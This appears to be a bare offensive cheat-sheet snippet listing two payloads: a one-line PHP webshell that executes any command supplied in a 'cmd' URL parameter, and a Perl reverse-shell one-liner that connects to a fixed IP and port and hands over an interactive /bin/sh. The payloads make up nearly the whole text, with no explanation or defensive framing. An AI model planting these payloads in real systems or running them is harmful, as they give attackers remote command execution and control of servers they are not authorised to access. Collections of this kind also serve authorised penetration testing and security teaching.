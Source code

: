 1. PHP webshell

` <?php echo shell_exec($_GET['cmd'].' 2>&1'); ?> `



2. Perl reverse shell

` perl -e 'use Socket;$i="172.16.2.3";$p=81;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' `
